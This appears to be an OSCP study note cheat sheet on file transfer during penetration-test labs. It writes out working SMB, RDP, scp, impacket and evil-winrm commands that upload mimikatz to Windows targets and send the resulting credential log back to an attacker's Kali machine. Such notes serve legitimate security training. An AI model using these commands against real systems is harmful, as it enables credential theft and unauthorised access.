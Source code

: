##SMB File Transfer 
kali>impacket-smbserver test . -smb2support  -username ashok -password reddy </br>
WIN>net use m: \\192.168.45.242\home\kali\Desktop\HTB\OSCP\AD\beyond /user:kourosh kourosh </br>
WIN>copy 20240715135750_BloodHound.zip m:\ </br>

 0) SSH

```bash
kali>sudo service ssh start (Transfer file windows to kali)
```

```bash
WIN>scp file kali@192.168.45.208:/home/kali/Desktop/HTB/OSCP(Windows)
```



OSCP Note - https://discord.com/channels/780824470113615893/1148907181480104028
Youtube - https://www.youtube.com/watch?v=kd0sZWI6Blc
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username ashok -password reddy
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
